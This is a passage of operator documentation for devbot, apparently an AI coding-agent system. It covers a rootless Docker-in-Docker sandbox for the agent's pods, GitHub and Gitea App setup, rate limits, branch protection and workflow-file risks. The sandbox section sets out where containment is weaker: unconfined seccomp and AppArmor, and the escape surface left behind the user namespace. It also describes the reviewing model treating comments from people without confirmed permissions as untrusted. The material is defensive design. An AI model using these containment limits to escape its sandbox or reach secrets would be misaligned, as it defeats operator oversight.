container, like every job pod, and no NetworkPolicy lets it reach the API
server. The daemon's container mounts no Secret and gets none of the
harness's or the model proxy's environment.

### dind

`dind` runs `docker:dind-rootless` as a native sidecar: Docker's rootless
daemon, under [RootlessKit](https://github.com/rootless-containers/rootlesskit),
in a user namespace of its own nested inside the pod's. The job pod keeps
`hostUsers: false`, and no container is privileged; the chart refuses `dind`
with `jobs.userNamespaces` off. The daemon listens only on the pod's socket,
not on TCP, and RootlessKit keeps its containers off the pod's loopback,
where the model proxy is. The daemon's container mounts `/work` read-only at the agent's path, so a
bind mount from the workspace has its files; a container can't write to
it.

**Opt in to the looser sandbox.** The chart renders `dind` only with
`docker.dind.acceptLooserSandbox: true`, since its daemon container needs
the settings below. Pod Security's `baseline` level refuses such a pod
(`allowPrivilegeEscalation`, `procMount: Unmasked`, Unconfined seccomp and
AppArmor profiles), so a namespace that enforces `baseline` won't run
`dind`'s job pods.

**The TUN device plugin, which the chart runs.** slirp4netns, the daemon's
network, needs `/dev/net/tun`, and a pod with `hostUsers: false` can't
mount the node's by hostPath: the kubelet idmaps every volume of a userns
pod, and a device node can't be idmapped, so the pod never starts
(`failed to set MOUNT_ATTR_IDMAP on /dev/net/tun`), and the pod can't
create the device itself. A device plugin hands the device to the
container runtime instead, which adds it to the container. So with `dind`
the chart runs one, `<release>-tun-plugin`: a DaemonSet of
[squat/generic-device-plugin](https://github.com/squat/generic-device-plugin),
pinned, that gives out `/dev/net/tun` and nothing else as `devbot.io/tun`
(`docker.dind.tunResource` renames it), `tunPlugin.count` times per node.
The daemon's container claims one (`limits: {devbot.io/tun: 1}`), and no
other container does. An install needs nothing set up by hand on its nodes.

The DaemonSet runs on the nodes job pods can run on: it has
`jobs.nodeSelector`, `jobs.tolerations` and `jobs.affinity`. It needs two
host paths: the node's `/dev/net` (read-only), where it finds the device,
and the kubelet's device-plugin directory, where it registers with the
kubelet over the kubelet's unix socket and serves its own. A userns pod
can't use host paths for that, so it runs in the node's user namespace, as
root (uid 0): the kubelet's directory (mode 0750) and socket are root's.
Owning them is all it needs. The plugin only looks the device's path up,
never opens it, and the runtime, not the plugin, adds the device to the
daemon's container. So it is **not privileged and has no capabilities**:
`privileged: false`, `allowPrivilegeEscalation: false`, `capabilities:
{drop: [ALL]}` with none added, the runtime's default seccomp profile and
AppArmor confinement, and a read-only root filesystem. Beyond that it gets
nothing: a ServiceAccount of its own with no token mounted and nothing
bound to it, small resource limits, and, with `networkPolicy.enabled`, a
NetworkPolicy, `<release>-tun-plugin`, that allows it no traffic in or out
(the kubelet talks to it over the socket). Pod Security's `baseline` and
`restricted` levels still refuse it, for its host paths, as they do the
daemon's pods.

A node needs `/dev/net/tun` (the `tun` module, built in or loaded, as
Docker and most CNIs need anyway): on a node without `/dev/net` the
plugin's pod doesn't start. On a node whose SELinux policy keeps a
container from the kubelet's socket (`container_t`, as on RHEL or
OpenShift), the plugin can't register; run a plugin of your own there
(below).

An install that already runs a plugin giving out `/dev/net/tun` (a second
devbot release in the cluster, say) sets `docker.dind.tunPlugin.enabled:
false` and names that plugin's resource in `docker.dind.tunResource`; the
chart refuses `dind` with neither. Two plugins giving out the same resource
name on one node take each other's registration, so run one per cluster.

**Rejected alternatives**, each tried in the [tested
environment](#tested-environments): RootlessKit's `--net=host`, which needs
no TUN device, leaves containers with no usable network (`--network host`
gets `EPERM` entering the pod's network namespace) and makes dockerd's `/version` panic (a nil dereference in
`fillRootlessVersion`); a rootful dockerd in the pod's user namespace fails
on `mkdir /sys/fs/cgroup/docker: read-only file system`, since the
container's cgroup belongs to the node's root and isn't delegated; and a
privileged sidecar, as GitHub's Actions Runner Controller runs, would give
the agent root on the node.

**What it needs, and why.** The settings below come from what the default
sandbox refuses, measured in a devbot job pod on the [tested
nodes](#tested-environments) (`hostUsers: false` with 65536 IDs,
RuntimeDefault seccomp, AppArmor `cri-containerd.apparmor.d`), and were then
shown to be enough on them (below). With the kernel allowing
unprivileged user namespaces, `unshare -U -r`, RootlessKit's first step, is
refused (`EPERM`); `/proc/sys`, `/proc/kcore` and others are masked; and the
image's subordinate IDs (from 100000) are outside the pod's. So the
daemon's container, and no other, sets:

| Setting | Why |
|---|---|
| `runAsUser: 1000`, `runAsGroup: 1000` | The image's rootless user, whom RootlessKit maps to root in the daemon's namespace. |
| subordinate IDs `rootless:1001:64535` (ConfigMap `<release>-dind`, on `/etc/subuid` and `/etc/subgid`) | The rest of the pod's 65536 IDs, for the users inside containers. The image's own range is outside the pod's user namespace, so `newuidmap` would refuse it. |
| `allowPrivilegeEscalation: true` | `newuidmap` and `newgidmap`, which write those maps, are setuid. |
| `seccompProfile: Unconfined` (`docker.dind.seccompProfile`) | containerd's RuntimeDefault allows `unshare` and `clone` with `CLONE_NEWUSER`, and `mount`, only to a holder of `CAP_SYS_ADMIN` in the pod, which no container has. |
| `appArmorProfile: Unconfined` (`docker.dind.appArmorProfile`) | The runtime's default profile refuses `mount`, which the daemon needs for its namespace and each container's root. |
| `procMount: Unmasked` | The kernel won't mount a fresh `/proc` for a container while paths of the pod's are masked. Kubernetes allows it only with `hostUsers: false`. |

The daemon's store, an `emptyDir`, is mounted at
`/home/rootless/.local/share`, one level above its data root: the
`emptyDir`'s own root belongs to root, and dockerd, as uid 1000, can't
`chmod` it, so it makes `docker/` there itself. The daemon's startup probe
asks the API (`docker version` over the socket) rather than waiting for the
socket to appear, which dockerd makes before it can serve, so the agent
and the checks start against a daemon that answers.

The socket is `srw-rw----`, owned by uid 1000 and group 3375. The agent
container, root with only `NET_RAW` and `MKNOD` dropped, can use it; a
client with every capability dropped gets permission denied. The harness
(uid 65532, no capabilities) doesn't use the socket; it would need its own
access if it ever did.

**The trade-off.** The pod's isolation from the node is what it was: a user
namespace, no privileged container, no capabilities added. But the daemon's
container, which runs whatever the model asks of the Docker API, has no
seccomp filter and no AppArmor confinement, and its root holds every
capability in a nested user namespace. That opens the kernel surface (user
namespace creation, mounts, netfilter) that most container escapes go
through, with only the user namespace between it and the node. A `Localhost`
seccomp profile installed on every job node (RuntimeDefault plus `unshare`,
`clone` with `CLONE_NEWUSER`, `mount`, `umount2`, `pivot_root` and `setns`) and
an AppArmor profile that allows `mount` narrow it:

```yaml
docker:
  mode: dind
  dind:
    acceptLooserSandbox: true
    seccompProfile: {type: Localhost, localhostProfile: profiles/rootless-docker.json}
    appArmorProfile: {type: Localhost, localhostProfile: rootless-docker}
```

Each run's daemon, images and containers live in the pod's own storage
(`docker.dind.resources` caps its ephemeral storage, and the store's
`emptyDir`), so they go with the pod, whatever ends it.

**What has been verified.** In the [tested environment](#tested-environments),
a pod with `hostUsers: false`, this chart's daemon container, `/dev/net/tun` from squat/generic-device-plugin and the default
slirp4netns network, and a client with the agent container's
securityContext:

- `docker version` answered (29.9.1); `postgres:16-alpine` was ready in 2
  seconds and answered `select 42`.
- A published port (`-p 15432:5432`) answered psql from the agent's network
  namespace at `127.0.0.1:15432`.
- A bind of a file under `/work` showed up inside the container.
- `docker network create` worked, and a `--network-alias` resolved from
  another container; `docker build` worked, and so did a container's
  egress.
- `--pid=host` saw only the pod's own processes, `--privileged` containers
  failed to start (`mounting sysfs ... operation not permitted`), and no
  container in the pod had a ServiceAccount token.

The chart's tests (`deploy/docker_test.go`) check what renders: the sidecar
only in the `-docker` ScaledJobs' pods, no API token in any container, no
API-server egress, `dockerd` on the unix socket alone with no TCP flag or
port, the TUN device claimed by the daemon alone and no hostPath volume or
privileged container in any job pod, the store's mount, the API startup
probe, `/work` read-only at the agent's path; the device plugin's pinned
image, `/dev/net/tun` alone, the job pods' placement, no privilege or
capability and only `/dev/net` of the node's `/dev`, no token and no
traffic, and none of it with `tunPlugin` off; and the refusals without
`jobs.userNamespaces`, `acceptLooserSandbox`, or a TUN resource. The queue
routing, including moving Docker jobs to the plain lists when `docker.mode`
is unset, is covered by unit tests.

**Not yet verified:** the chart as built, with its own device plugin, on a
cluster, a whole devbot run with `dind` (the pod above was a throwaway
one, not a job pod devbot started), the review role, a real testcontainers library run, two concurrent runs,
cleanup in every outcome, and arm64 or 5.x-kernel nodes.

### Image registries

`repos.limits` can't restrict which registries a run pulls from, because
the rootless daemon has no per-run pull policy and can't tell one repo's
pulls from another's. What is enforceable is per install: the pod's
egress, through which the daemon pulls (an `egressProxy` that allows only
your registries, or a registry mirror).

## Forge setup

### Gitea

**Webhook.** devbot needs issue, comment, label, PR, review, status and push
events for every repo it serves.

- **Single-user instance:** use a **System Webhook**. An org webhook only
  covers org repos.
- **Delivery URL:** `http://<serve-service>.<ns>.svc.cluster.local/webhooks/<provider name>`.
- **Format and secret:** JSON content type, with the secret from
  `webhook_secret_env`.
- **Events:** all of these are required. Without one, devbot notices that
  change only on the next reconcile pass.
  - `issues`, `issue_label` and `issue_comment`: an issue changing, its
    labels (`devbot/ready`) and comments on it.
  - `pull_request`, `pull_request_sync` and `pull_request_label`: a PR
    changing, new commits on it, and its labels (`devbot/ready`, for PR
    adoption).
  - `pull_request_review_*` and `pull_request_comment`: reviews and
    comments on a PR.
  - `status`, `workflow_run` and `workflow_job`: checks on a PR's head.
  - `push`: the default branch moving, so a changed `.devbot.yaml` applies
    at once, and a tag pushed, which releases a task waiting for one at
    once (see [Release gates](architecture.md#release-gates)).

Two Gitea traps:

- **The admin hooks API creates a *default* webhook** (copied into new repos),
  not a system one. Check `is_system_webhook` and set it if needed.
- **Gitea refuses to deliver to in-cluster addresses** unless
  `webhook.ALLOWED_HOST_LIST` names both the host **and** its IP
  (`external,devbot.devbot.svc.cluster.local,10.96.120.10/32`). Pin the Service's
  IP with `serve.clusterIP` so the allow-list stays right.

Failed deliveries are in Gitea's `hook_task` table, and devbot counts what it
receives in `devbot_webhook_events_total`.

**Per repo:** both bots as write collaborators, and the implementer bot as
**admin** on the repo, or on the org team that holds the repos, so it can
read other people's permissions (see [below](#who-can-direct-devbot)). The
reviewer reads them too, from review pods, to tell the reviewing model whose
comments it may trust; without admin it treats every person's comments as
untrusted, and logs the refused lookups. Optionally, a `.devbot.yaml` on the
default branch and, with `require_checks`, a CI workflow on `pull_request`.
devbot creates its `devbot/*` labels on first use.

**Merges** are made by the reviewer bot, with the repo's `merge_method`,
and only while the head is still the commit that was approved. Gitea's `409`
("head out of date", but also a conflict found only while merging, or a
push a hook rejected) sends devbot to read the PR again: a head that moved
goes back through the gate, and an unchanged head counts as a failure that
may pass. Its `405` "Please try again later" is Gitea still checking the
PR, which devbot retries with backoff; any other `405` (a conflict, or
branch protection) is a refusal, which stops the task at
`devbot/needs-human`.

**Mergeability.** Gitea's `mergeable` is `false` for a conflict, but also
while it is still checking the PR, when its check failed, and whenever the
title starts with `WIP:` or `[WIP]` (in any case). A WIP title isn't taken
as a conflict: the gate goes on, and Gitea's refusal to merge a work in
progress stops the task at `devbot/needs-human`, saying so. Any other
`false` devbot reads again two seconds later: `true` then is mergeable, and
`false` again is a conflict, which is rebased. A second read that fails,
or finds a new head, leaves it not known yet, for a later evaluation. A
PR in a list isn't read again, so a `false` there is not known yet.

**Push webhooks** list only the first few commits of a push (5, by
default). A push to the default branch with more commits than it lists is
taken as changing any path, so it drops the cached `.devbot.yaml` as one
that names it does.

**Lists** are read a page at a time to their end, however long: timeline
events, reviews, open PRs, issues in a search, repos, branches and
statuses on a commit. A missing label event, edit, review or check could be
the one a decision turns on, so none stops early. Labels aren't listed:
devbot reads each of its own by name (`GET /repos/{owner}/{repo}/labels/{name}`,
which needs Gitea 1.20 or later), so a repo's thousands of labels cost
nothing. See [Scale limits](#scale-limits).

**Don't make the bots site admins.** A Gitea token can't be limited to a repo:
whatever its scopes, it reaches every repo its user can. That is an accepted
limit of Gitea's tokens, so a bot's reach is set by what its user is given.
As repo collaborators, or members of an org team holding devbot's repos,
each bot's token reaches those repos and nothing else; a site admin's
reaches every repo on the instance and the admin API. Give each bot user
nothing beyond devbot's repos, and its token only the scopes [Installing](#installing) lists
(`write:repository,write:issue,read:user,read:organization`). See
[Security](#security).

### GitHub

Each bot is a **GitHub App**, not a user account: two Apps, one for the
implementer and one for the reviewer. An App needs no seat, acts as
`<slug>[bot]`, and devbot stores no long-lived token for it, only its private
key. For each call devbot signs a JWT with the key (RS256, valid for under ten
minutes), finds the App's installation on the repo
(`GET /repos/{owner}/{repo}/installation`), and acts with an installation
token (`POST /app/installations/{id}/access_tokens`). Each token is minted
for **one repo** (`repositories: [<name>]`) and the role's permissions
alone (below), so a token that leaks from a job reaches nothing else the App
is installed on. Installation tokens last an hour; devbot keeps one per repo
and mints a new one five minutes before it expires. Finding work, serve also
mints two per installation, kept in its memory: one that can only list its
repos (Metadata read), and one that can only read its issues and PRs, for
the search API (Issues, Pull requests and Metadata read, as far as the
installation has them).
The two Apps never share a token: whatever the reviewer does is done with
the reviewer App's installation, and each job pod holds only its own role's
App key. Git authenticates with the same token, as `x-access-token`, in a
header passed per command and asked for again before each clone, fetch and
push, so a job that outlasts an hour still pushes with a current token.

**Creating the Apps.** Create two Apps (Settings, Developer settings, GitHub
Apps, on the org that owns the repos, so the org owns them too), named for
what people will see them as, say `acme-devbot` and `acme-devbot-review`.
The implementer App also takes the webhook (below) and, by default, people's
sign-ins ([The forge's OAuth app](#the-forges-oauth-app)); turn the reviewer
App's webhook off. Repository permissions:

| Permission | Implementer App | Reviewer App | For |
|---|---|---|---|
| Contents | read and write | read and write | cloning and pushing branches, the [attachments branch](#attachments-branch); the reviewer clones and merges |
| Pull requests | read and write | read and write | opening and editing PRs; the reviewer reviews and merges |
| Issues | read and write | read and write | reading tasks, comments, labels and who set them; commenting and labelling. A review pod holds the reviewer's key alone, so the reviewer reads the task itself, and comments on it when a review keeps failing |
| Metadata | read | read | always on: repos, collaborators' permissions |
| Checks | read | read | check runs (GitHub Actions and other Apps); the reviewer shows them to the reviewing model |
| Commit statuses | read; optional, read and write | read | external CI's statuses, likewise. Write, for the implementer: the `devbot/integration` status a parent task's [integration check](devbot-yaml.md#integration-checks) posts on each child's head; without it the result is on the parent alone |
| Administration | optional, read | - | reading classic branch protection's settings (required reviews, code owners, who may push); without it devbot can only say the branch is protected (see [below](#branch-protection-and-rulesets)) |
| Actions | optional, read and write | optional, read | re-running [cancelled checks](#cancelled-checks), as the implementer; without it a cancelled check stops the task at `needs-human`. Read, for either App: the logs of failed jobs in [what CI said](#what-ci-said); without it a fix round and the reviewer get a job's check run output but not its log |
| Workflows | optional, read and write | **no** | pushing changes to `.github/workflows/`: a change a person approved (`approvable_paths`), work in a repo whose `protected_paths` leaves them out, and rebases onto a base whose workflows changed; see [Workflow files and rebases](#workflow-files-and-rebases) |

devbot only works in a repo where both Apps' installations have Contents,
Pull requests and Issues write. Where one doesn't, the repo isn't enabled,
and the reason, which `file_task` and `task_status` answer with, names the
App, what it has and what it needs: "the reviewer App acme-devbot-review is
installed with issues: read; devbot needs issues: write, so grant it in the
App's settings and accept the change on the installation". serve and
`devbot reconcile` also log a warning at startup for each installation short
of one. Changing an App's permissions asks each installation's owner to
accept them; until they do, the installation keeps the old ones. A token asks
for the permissions in its App's column and no more, read where the App was
granted only read. The reviewer App's tokens never ask for Workflows, whatever
it was granted.
Actions results reach devbot as check runs; the Actions API is only for
re-running cancelled ones and reading failed jobs' logs. No organization or account permissions.

- **Private keys:** on each App's settings page, generate a private key and
  put the `.pem` file's contents in the `secrets.forge` Secret, under the key
  `implementer_key_env` (or `reviewer_key_env`) names. GitHub's PKCS#1 key
  works as downloaded, as does PKCS#8. The App IDs, for `implementer_app_id`
  and `reviewer_app_id`, are on the same pages. A key that doesn't load or
  isn't the App's stops devbot at startup.

  ```bash
  kubectl -n devbot create secret generic devbot-forge-github \
    --from-file=GITHUB_APP_DEVBOT_KEY=acme-devbot.private-key.pem \
    --from-file=GITHUB_APP_REVIEW_KEY=acme-devbot-review.private-key.pem \
    --from-literal=GITHUB_WEBHOOK_SECRET="$(openssl rand -hex 32)"
  ```

- **Install both Apps on the same repos** (each App's page, Install App):
  the whole org, or the same selected repositories for each. A repo only
  one of them is installed on isn't enabled, and the reconcile loop finds
  work through the implementer App's installations. Adding a repo to an
  installation later is enough; nothing in devbot changes.

`url` is the API base: `https://api.github.com`, or
`https://<host>/api/v3` on GitHub Enterprise Server. devbot sends
`X-GitHub-Api-Version: 2022-11-28` and follows `Link` pagination to the end
of every list, however long (see [Scale limits](#scale-limits)). devbot's
labels are read by name (`GET /repos/{owner}/{repo}/labels/{name}`), never
listed with the repo's own. devbot waits out rate limits, shares what it learns of
them between processes, and paces work that can wait; see
[GitHub rate limits](#github-rate-limits).

**Webhook: the implementer App's only.** GitHub sends an App's events to
the webhook on the App's settings page, for every repo it's installed on.
Turn the **reviewer App's webhook off** (uncheck Active): with both on,
every event arrives twice, under different delivery IDs, and is handled
twice. devbot ignores a delivery whose
`X-GitHub-Hook-Installation-Target-ID` isn't the implementer App's, but each
one still costs a request. On the implementer App:

- **Webhook URL:** `https://<serve's public host>/webhooks/<provider name>`.
  GitHub.com delivers from the internet, so serve's `listen` must be
  reachable from there (the chart's `ingress` or `virtualService`); on GitHub Enterprise Server, an in-cluster address
  the appliance can reach works too.
- **Secret:** the one in `webhook_secret_env`. devbot checks
  `X-Hub-Signature-256` (HMAC-SHA256 of the body) and rejects a delivery
  without a valid one. Deliveries are deduplicated on `X-GitHub-Delivery`.
- **Events:** Issues, Issue comment, Pull request, Pull request review,
  Check run, Check suite, Status and Push, all required. Push brings tags
  too, which release a task [waiting for one](architecture.md#release-gates). Pull request
  includes its `labeled` action, which PR adoption needs to see
  `devbot/ready` on a PR at once. Installation events are always sent, and
  tell devbot when a repo is added to or removed from the App.
  Anything else is ignored. GitHub Apps always send JSON.

Without a webhook devbot still works, on the reconcile loop alone: it
notices each change within `reconcile_interval` instead of at once.

A comment on a PR's conversation comes as `issue_comment`, like one on an
issue, and devbot tells them apart. A check run or suite reaches the PRs in
its `pull_requests`, or, when that's empty (a head on a fork), the task's PR
at its head SHA, as a commit status does (see
[Skipped webhooks](architecture.md#skipped-webhooks)). Recent deliveries, and a
redeliver button, are under the App's settings, Advanced; devbot counts what
it receives in `devbot_webhook_events_total`.

**Finding work.** The reconcile loop finds labelled items with GitHub's
search API (`GET /search/issues`): for each state label, open and closed,
and for PRs labelled `devbot/ready`, one query per installation of the
implementer App, in the account it is installed on (`org:<login>` or
`user:<login>`). A pass costs the same whether an installation has ten
repos or ten thousand. A query with more than the 1,000 results the search
API returns, when first read or by its last page, is split by `created:`
date range until every part fits. More than 1,000 created in one second
can't be split: its first 1,000 are reconciled and the search counts as a
failure (below), as one GitHub answers only in part does. Searches count
against the search limit, 30 a minute per installation, which devbot
waits out. The search index lags writes by up to a minute or so: a label
set just before a pass is found on the next one, and the webhook has
usually acted on it already. devbot doesn't also list the repos it already
has tasks in.

Hits are kept only in the repos of devbot's inventory that have issues on
and that `repos.allow` / `repos.deny` allow: a search by account also finds
its public repos the App isn't installed on. The inventory is the App's
installations (`GET /app/installations`) and every repo of each (`GET
/installation/repositories`, every page however many), listed by the
first search that needs it and kept for an hour. An `installation` or
`installation_repositories` webhook, on any serve replica, makes the next
search list it again. A list that fails keeps the last one: an
installation whose repos can't be listed keeps the repos it had, the error
is logged, counted in `devbot_search_errors_total`, and it is tried again
ten minutes later. An installation whose search fails (a token GitHub
won't mint, a 5xx) is skipped for that pass and counted the same way; the
others are still reconciled.

The adapter reads issues, comments, PRs and their files, files on a
branch, the default branch, whether each App can write to a repo, and git
access; takes webhooks and finds work across every installation; files,
closes and comments on issues, sets their labels and reads who labelled
them; keeps the `devbot/*` labels' colours and descriptions as devbot sets
them; checks people's permissions; signs people in
([below](#the-forges-oauth-app)); attaches files to PRs (see
[Attachments branch](#attachments-branch)); and opens, edits, reviews and
merges PRs and reads their checks:

- **PRs** are opened and edited by the implementer App. While GitHub is still
  working out whether a PR can merge (`mergeable` is `null`), devbot asks
  again a few times over six seconds, then reports it as not known yet
  rather than as a conflict. `mergeable_state` `dirty` is a conflict,
  `behind` is behind the base, `blocked` is the repo's branch protection
  refusing the merge, and `clean`, `has_hooks`, `unstable` and `draft` are
  mergeable. A PR is also behind when its base has commits its head lacks.
- **Checks** combine GitHub's two systems: commit statuses (external CI)
  and check runs (GitHub Actions and other Apps), from every check suite on
  the commit. A check run that ends `success`, `neutral` or `skipped` passes;
  one that is queued or running is pending; any other conclusion fails, and
  `cancelled` is a [cancelled check](#cancelled-checks). A re-run replaces
  the earlier run of the same name.
- **Reviews** are posted by the reviewer App, on the commit it reviewed. A
  review someone dismissed counts for nothing.
- **Merges** are made by the reviewer App, with the repo's `merge_method`,
  and only while the head is still the commit that was approved. GitHub
  refusing the merge (a conflict, or branch protection) and the head having
  moved come back as different errors, with GitHub's own message ("At least
  1 approving review is required by reviewers with write access.").
- **Branch rules** are read for the PR's base branch once devbot's gate has
  its approval: rulesets with `GET /repos/{owner}/{repo}/rules/branches/{branch}`
  (only active rules; a ruleset in evaluate mode isn't one), and classic
  branch protection's required checks from `GET /repos/{owner}/{repo}/branches/{branch}`.
  Both need nothing beyond the permissions above. The rest of classic
  protection (required reviews, who may push) comes from
  `GET /repos/{owner}/{repo}/branches/{branch}/protection`, which takes
  **Administration read** on the implementer App. It's optional: without it,
  devbot's comments say there is branch protection it can't read. A private
  repo on GitHub Free has neither rulesets nor branch protection, and GitHub
  answers these reads with `403` "Upgrade to GitHub Pro or make this
  repository public to enable this feature."; devbot takes that as no rules.

**Signing people in** (`auth.mode: oauth`) goes through the implementer App
by default. On its settings page set the **Callback URL** to
`<auth.resource_url>/oauth/callback`, leave **Expire user authorization
tokens** checked, generate a **client secret**, and put the App's client ID
and that secret in `secrets.auth`. [The forge's OAuth
app](#the-forges-oauth-app) has the details, and how to use a separate
sign-in App instead.

#### GitHub rate limits

**Waiting.** devbot waits out rate limits: until `x-ratelimit-reset` when
the primary limit is spent, for `Retry-After` when GitHub sends it, and
otherwise from a minute, doubling, on a secondary limit. GraphQL, which
devbot uses only for an issue body's edit history, reports its limit as a
`200` with an error of type `RATE_LIMITED`, and is waited out the same way.
Each credential bucket (an App's JWT, each installation, each person's
token) has its own REST (`core`), GraphQL and search limits, as
`x-ratelimit-resource` names them, so a spent GraphQL budget holds back only
GraphQL calls. A wait over two minutes fails the call instead. A
connector call (MCP, the HTTP API, the web UI) waits for at most 10
seconds in all, since a person or a client is waiting on it: past that, it
returns the limit as a `429` with `Retry-After` and the reset time
([Errors](connectors.md#errors)).

**Shared between processes.** After every call, devbot records what the
answer's `x-ratelimit-remaining`, `x-ratelimit-limit` and
`x-ratelimit-reset` say, by bucket and resource, in Redis
(`devbot:quota:<provider>`). Every serve replica and job pod reads it before
each call, so once one has found a bucket's primary limit spent, none sends
another request on that bucket until the reset. A note can only move
forward: within one window, only fewer calls left replaces what is
recorded. Without Redis each process goes on with what it saw itself.

**Kept events.** A webhook event whose handling hits a limit it can't wait
out isn't lost: serve keeps it in Redis and handles it after the reset,
coalescing the events about one issue or PR, and drops it, to reconcile,
after five tries (see
[Rate-limited events](architecture.md#rate-limited-events)).

**Pacing.** Below `providers[].low_quota_percent` (10% unless set) of an
installation's `core` limit, devbot defers low-priority work to the reset,
without a request: reconcile's discovery (the label searches, the
inventory, the PRs to carry) and its branch sweep, and webhook events no
task stands behind (a comment that reads like a command on an issue with
no `devbot/*` label, or a delivery whose payload says too little to tell).
A deferred event is kept like a rate-limited one, and the first reconcile
pass after the reset finds what discovery deferred; neither is counted as
an error. The tasks' own work goes on until the limit itself: evaluations
of a task's issue, PR or head, merges, the evaluations job pods ask for,
and the job pods' own calls.

**Metrics** ([Observability](#observability)):
`devbot_forge_requests_total` counts serve's calls by bucket, method,
endpoint template (`/repos/{owner}/{repo}/pulls/{}`, never a concrete
path) and status class, with `304` apart;
`devbot_forge_ratelimit_remaining`, `_limit` and `_reset_seconds` are the
last known quota of each bucket and resource, from every process;
`devbot_forge_ratelimit_errors_total` and
`devbot_forge_ratelimit_waits_total` the calls given up and waited;
`devbot_webhook_requeue_total` and `devbot_webhook_events_kept` the events
kept, deferred, coalesced and dropped; `devbot_reconcile_deferred_total`
the discovery deferred; and `devbot_search_errors_total` the inventory and
discovery failures. To find what spent an installation's quota, sum
`devbot_forge_requests_total` by `endpoint` for its `bucket`
(`installation <id>`).

#### GitHub Enterprise Server

The same adapter, Apps and permissions, with these differences:

- **`url`** is `https://<host>/api/v3`. devbot derives the web pages
  (`https://<host>/...`), git's clone URLs and the sign-in pages
  (`https://<host>/login/oauth/...`) from it, and needs no separate upload
  host: attachments go through the contents API.
- **The Apps** are created on the appliance, under the org's or the
  enterprise's Developer settings, and installed there. App IDs and keys are
  the appliance's own; an App on GitHub.com doesn't carry over.
- **The webhook** can point at an in-cluster address the appliance can
  reach, as long as GitHub Enterprise Server's own allow-lists let it.
- **Rulesets** are read only where the appliance has the "Get rules for a
  branch" endpoint. On a release without it, devbot reads classic branch
  protection alone, and a ruleset it couldn't read still shows up as GitHub
  refusing the merge (below).
- **Rate limits** are whatever the appliance's admin set, or none; devbot
  handles both the same way.

#### Branch protection and rulesets

devbot's merge gate is its own, and GitHub enforces the repo's rules on top
of it. Checks the rules require count as CI: one that never reports on the
PR's head holds the gate, and after 10 minutes stops the task at
`devbot/needs-human`. Two `405`s from the merge are transient, and devbot
retries them with backoff: "Base branch was modified. Review and try the
merge again." (another merge landed on the base first), and any `405` while
GitHub is still computing whether the PR can merge. When GitHub otherwise
refuses a merge the gate passed (`mergeable_state` `blocked`, or `405` from
the merge), devbot doesn't try again: the task stops at `devbot/needs-human`,
quoting GitHub and listing the rules on the branch, with two ways out:

1. **Let the reviewer App merge past them.** In a ruleset, add the App to the
   bypass list (GitHub docs: "About rulesets", bypass permissions can go to
   GitHub Apps). In classic branch protection, add it under "Allow specified
   actors to bypass required pull requests", and under "Restrict who can push
   to matching branches" when that is on. Then add `devbot/ready` to retry.
2. **Leave it to a person**, who approves the PR if the rules ask for that,
   and merges it.

When devbot can't read the rules at all (any other error from the reads
above), the gate doesn't wait on them: it logs a warning with the repo and
branch, counts it in `devbot_protection_lookup_errors_total`, and goes on to
the merge with no required checks or rules of the repo's own. GitHub's
answer to the merge is then the authority, and a refusal stops the task at
`devbot/needs-human` as above, quoting GitHub.

A PR GitHub reports `blocked` is still offered to the reviewer App to merge:
the implementer App reads `mergeable_state`, GitHub's docs don't say whether
it accounts for who would merge, and the reviewer may be exempt. With automerge off, the approval comment
warns that the merge is blocked.

**The reviewer App's approval counts towards required approving reviews**,
under a ruleset and under classic branch protection alike: tested live on
GitHub.com on 2026-10-17 by the live test's required-reviews experiment
([TestLiveRequiredReviews](#running-the-live-github-test)), where the
reviewer App's approval unblocked a PR whose branch required one approving
review, and the reviewer App merged it. GitHub's own docs don't say so (they
cover people with write access, Copilot and GitHub Actions, not GitHub Apps),
and GitHub may change it, so devbot's gate doesn't assume it either way: it
still tries the merge, and a refusal goes to `devbot/needs-human` as above.
Other rules can still refuse it: code owners' reviews, approval of the last
push, required checks, and who may push or merge. Under classic protection,
devbot reads those settings only with the implementer App's **Administration
read**; without it, its comment says there is branch protection it can't
read, and GitHub's refusal is the only word on what blocked the merge.

#### Workflow files and rebases

GitHub refuses a push from a GitHub App that creates or updates a file in
`.github/workflows/` unless its token has the **Workflows** write permission
("refusing to allow a GitHub App to create or update workflow ... without
`workflows` permission"). The permission is optional: devbot's implementer
tokens ask for Workflows write when the implementer App's installation grants
it, and leave it out when it doesn't. The reviewer App's tokens, and the ones
devbot searches and lists repos with, never ask for it.

The permission alone doesn't let devbot change workflows. `.github/**` is in
the default [`protected_paths`](devbot-yaml.md#protected-paths) and the
default [`approvable_paths`](devbot-yaml.md#changes-a-person-may-approve), so
work that changes a workflow is held, unpushed, until a person approves
exactly that content, and the merge gate stops a PR whose workflows hold
anything else. Pushing the approved change needs Workflows write; without it
GitHub refuses the push, and the task stops at `needs-human` with the message
below. A repo with `approvable_paths: []` never pushes a workflow change. A
repo whose `protected_paths` leaves `.github/**` out pushes workflow changes
with no approval at all. The [always-protected
paths](devbot-yaml.md#how-devbot-reads-it) stay protected either way.

Grant it knowing the tradeoff: workflows on pushed branches run with the
repo's secrets. An approval means a person has read the workflow, but not
what it runs. The push the approval triggers is of the whole held commit, so
a workflow that runs on `devbot/*` or uses secrets runs the commit's other
changes with them straight away, and those the comment only lists by name;
and once a workflow that runs on `devbot/*` with secrets is approved, a later
fix round can change the scripts, Makefile or tests it runs, which aren't
protected, and those run with the secrets unapproved. The comment asking for
the approval warns of both, and flags `run:` steps that call files the same
commit changes. Move the repo's secrets into environments whose deployment
branches leave `devbot/*` out (see
[CI on devbot's branches](#ci-on-devbots-branches)).

A rebase can change workflows too. A fix round that rebases the branch onto a
base whose workflows changed force-pushes a branch whose new tip has
different workflow files from the old one. GitHub's docs don't say whether
that push needs the permission; reports say it does. With Workflows write it
goes through. Without it, GitHub refuses the push, and the task stops at
`devbot/needs-human` at once (it isn't counted as a failed attempt, since
pushing again would be refused the same way). The comment quotes GitHub's
reason and says whether the implementer's token had Workflows write:

- **It didn't.** Grant **Workflows: write** to the implementer App and
  accept the new permission on the installation, or bring the PR's branch up
  to date with its base yourself (the PR's "Update branch" button does it as
  you), so the next push starts from a branch that already has the new
  workflows and doesn't change them. Then add `devbot/ready`.
- **It did.** GitHub refused it anyway, so something else blocks workflow
  changes, such as a ruleset of the repo's or its organization's. Fix that,
  then add `devbot/ready`.

Pushes devbot makes with an installation token start GitHub Actions
workflows as anyone's push does, so CI runs on devbot's PRs; only pushes made
with a workflow's own `GITHUB_TOKEN` don't (GitHub docs: "Triggering a
workflow from a workflow").

See `values.example-github.yaml` for the shape of an install.

#### Attachments branch

GitHub has no API to upload a file to a PR, so devbot commits PR attachments
to a branch named `devbot/attachments` in each repo, as the implementer App
